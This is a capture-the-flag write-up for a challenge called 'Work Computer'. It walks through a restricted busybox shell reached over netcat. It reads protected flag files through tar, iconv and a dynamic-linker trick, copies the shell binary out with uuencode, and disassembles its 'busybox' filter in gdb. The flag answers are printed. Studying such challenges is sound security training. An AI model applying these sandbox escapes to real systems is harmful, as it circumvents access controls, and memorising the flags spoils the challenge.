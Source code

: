 # Work Computer
## Description
With the confidence of conviction and decision making skills that made you a contender for Xenon's Universal takeover council, now disbanded, you forge ahead to the work computer. This machine announces itself to you, surprisingly with a detailed description of all its hardware and peripherals. Your first thought is "Why does the display stand need to announce its price? And exactly how much does 1000 dollars convert to in Xenonivian Bucklets?" You always were one for the trivialities of things. Also presented is an image of a fascinating round and bumpy creature, labeled "Cauliflower for cWo" - are "Cauliflowers" earthlings? Your 40 hearts skip a beat - these are not the strange unrelatable bipeds you imagined earthings to be.. this looks like your neighbors back home. Such curdley lobes. Will it be at the party? SarahH, who appears to be a programmer with several clients, has left open a terminal. Oops. Sorry clients! Aliens will be poking around attempting to access your networks.. looking for Cauliflower. That is, *if* they can learn to navigate such things.

## README.flag Solution
A server is provided for this challenge. We will assume it requires `netcat` similar to `pwn-buffer-overflow`

```bash session
$ nc readme.ctfcompetition.com 1337
# this drops us into a shell
> ls -l
total 8
----------    1 1338     1338            33 Jul  4 05:32 ORME.flag
-r--------    1 1338     1338            28 Jul  4 05:32 README.flag

> cat README.flag
error: No such file or directory
# that would have been too easy

> uname -a
Linux jail-0 4.15.0-1023-gcp #24-Ubuntu SMP Wed Oct 10 13:28:59 UTC 2018 x86_64 Linux

> ls -l /usr/bin
...
-rwxr-xr-x    1 65534    65534        14208 Jan 29 16:27 c_rehash
-rwxr-xr-x    1 65534    65534        36728 Mar 19 09:56 getconf
-rwxr-xr-x    1 65534    65534        51912 Mar 19 09:56 getent
-rwxr-xr-x    1 65534    65534        25216 Mar 19 09:56 iconv
-rwxr-xr-x    1 65534    65534        83744 Nov 15  2018 scanelf
-rwxr-xr-x    1 65534    65534      1810232 Dec 28  2018 upx
lrwxrwxrwx    1 65534    65534           12 May  9 20:49 yes -> /bin/busybox
# looks like this is busybox
# there are also a couple binaries which don't point to busybox

> ps
PID   USER     TIME  COMMAND
    1 1338      0:00 /bin/shell
   11 1338      0:00 ps

# this is the original solution my team came up with
> tar c README.flag
README.flag0000400000247200024720000000003413507312205010411 0ustar  13381338CTF{4ll_D474_5h4ll_B3_Fr33}

# alternatives discovered while working on the writeup
> iconv README.flag
> fold README.flag
```

### Flag
`CTF{4ll_D474_5h4ll_B3_Fr33}`

## ORME.flag Solution
```bash session
> /bin/busybox whoami
busybox can not be called for alien reasons.
# weird that `whoami` works but not when invoked through `/bin/busybox`

# we don't have access to the `file` command, but can use `scanelf` instead
> scanelf -a /bin/busybox
 TYPE    PAX   PERM ENDIAN STK/REL/PTL TEXTREL RPATH BIND FILE
ET_DYN PeMRxS 0755 LE RW- R-- RW-    -      -   NOW /bin/busybox
# this tells us the `busybox` is a shared object and is invoked by a dynamic linker

# maybe the shell does something funky when calling busybox
> scanelf -i /bin/busybox
 TYPE   INTERP FILE
ET_DYN /lib/ld-musl-x86_64.so.1 /bin/busybox

> /lib/ld-musl-x86_64.so.1 /bin/busybox cat README.flag
CTF{4ll_D474_5h4ll_B3_Fr33}
# ??? this shouldn't be any different than above

# we can call other busybox applets directly
# the owner of a file can chmod even with `0000` permissions
> /lib/ld-musl-x86_64.so.1 /bin/busybox chmod a+r ORME.flag
> /lib/ld-musl-x86_64.so.1 /bin/busybox cat ORME.flag
CTF{Th3r3_1s_4lw4y5_4N07h3r_W4y}
```

### Flag
`CTF{Th3r3_1s_4lw4y5_4N07h3r_W4y}`

## Bonus
### Exfiltrating /bin/shell
What is the `alien reason` that prevents us from running `/bin/busybox <applet>`?

Let's grab a copy of `/bin/shell` and find out.

```bash session
$ echo "/lib/ld-musl-x86_64.so.1 /bin/busybox uuencode /bin/shell shell" | nc readme.ctfcompetition.com 1337 > output
# there is extra shell output in the file
# we need to delete everything from start of file until `begin`, then everything after `end`

$ file output
output: uuencoded or xxencoded, ASCII text

# this creates a binary named `shell` with `0555` permissions as specified by `uuencode`
$ uudecode output

$ file shell
shell: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, not stripped

$ objdump -sj .rodata shell

shell:     file format elf64-x86-64

Contents of section .rodata:
 2000 63640068 656c7000 65786974 001b5b48  cd.help.exit..[H
 2010 1b5b4a00 00000000 0a0a0a0a 2a2a2a2a  .[J.........****
 2020 2a2a2a2a 2a2a2a2a 2a2a2a2a 2a2a2a2a  ****************
 2030 2a2a2a2a 2a2a2a2a 2a2a2a2a 2a2a2a2a  ****************
 2040 2a2a2a2a 2a2a000a 0a0a092a 2a2a2a41  ******.....****A
 2050 4c49454e 20534845 4c4c2a2a 2a2a0055  LIEN SHELL****.U
 2060 53455200 0a0a0a55 53455220 69733a20  SER....USER is: 
 2070 40257300 00000000 616c6965 6e73683a  @%s.....aliensh:
 2080 20657870 65637465 64206172 67756d65   expected argume
 2090 6e742074 6f202263 64220a00 6572726f  nt to "cd"..erro
 20a0 7200416c 69656e27 73207368 656c6c00  r.Alien's shell.
 20b0 54797065 2070726f 6772616d 206e616d  Type program nam
 20c0 65732061 6e642061 7267756d 656e7473  es and arguments
 20d0 2c20616e 64206869 7420656e 7465722e  , and hit enter.
 20e0 00546865 20666f6c 6c6f7769 6e672061  .The following a
 20f0 72652062 75696c74 20696e3a 00202025  re built in:.  %
 2100 730a0000 00000000 55736520 74686520  s.......Use the 
 2110 6d616e20 636f6d6d 616e6420 666f7220  man command for 
 2120 696e666f 726d6174 696f6e20 6f6e206f  information on o
 2130 74686572 2070726f 6772616d 732e0065  ther programs..e
 2140 72726f72 20666f72 6b696e67 006c7368  rror forking.lsh
 2150 3a20616c 6c6f6361 74696f6e 20657272  : allocation err
 2160 6f720a00 616c6965 6e73683a 20616c6c  or..aliensh: all
 2170 6f636174 696f6e20 6572726f 720a0020  ocation error.. 
 2180 090d0a07 003e2000 62757379 626f7800  .....> .busybox.
 2190 62757379 626f7820 63616e20 6e6f7420  busybox can not 
 21a0 62652063 616c6c65 6420666f 7220616c  be called for al
 21b0 69656e20 72656173 6f6e732e 00        ien reasons..
# the alien error message is stored at `0x2190`

$ gdb shell
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from shell...done.
(gdb) disas main
...
(gdb) disas init_shell
...
(gdb) disas lsh_loop
Dump of assembler code for function lsh_loop:
...
   0x00000000000018a4 <+102>:   mov    -0x14(%rbp),%eax
   0x00000000000018a7 <+105>:   cltq
   0x00000000000018a9 <+107>:   lea    0x0(,%rax,8),%rdx
   0x00000000000018b1 <+115>:   mov    -0x8(%rbp),%rax
   0x00000000000018b5 <+119>:   add    %rdx,%rax
   0x00000000000018b8 <+122>:   mov    (%rax),%rax
>  0x00000000000018bb <+125>:   lea    0x8c6(%rip),%rsi        # 0x2188
   0x00000000000018c2 <+132>:   mov    %rax,%rdi
>  0x00000000000018c5 <+135>:   callq  0x10d0 <strstr@plt>
   0x00000000000018ca <+140>:   test   %rax,%rax
>  0x00000000000018cd <+143>:   je     0x18dd <lsh_loop+159>
>  0x00000000000018cf <+145>:   lea    0x8ba(%rip),%rdi        # 0x2190
   0x00000000000018d6 <+152>:   callq  0x1070 <puts@plt>
   0x00000000000018db <+157>:   jmp    0x18ec <lsh_loop+174>
   0x00000000000018dd <+159>:   mov    -0x8(%rbp),%rax
...
End of assembler dump.
(gdb) x/s 0x2188
0x2188: "busybox"
```
The lines starting with `>` are interesting for multiple reasons
* `0x18cf` contains a load for `0x2190` which is the error message
* `strstr` is defined as `char *strstr(const char *haystack, const char *needle);`
* The System V AMD64 ABI calling convention uses `rdi` and `rsi` for the first and second arguments
* The `needle` is the string `busybox` (`0x2188`)
* The `je` branch `lsh_loop+159` is taken if `strstr` returns 0 (needle not in haystack)

Our hypothesis is that `/bin/shell` searches for `busybox` in the executable (`argv[0]`) and returns an error if it exists. A more in-depth analysis involves disassembling `lsh_split_line`. This hypothesis is further supported by testing with `env` and passing `/bin/busybox` as the second argument.
```bash session
> env /bin/busybox cat README.flag
CTF{4ll_D474_5h4ll_B3_Fr33}
```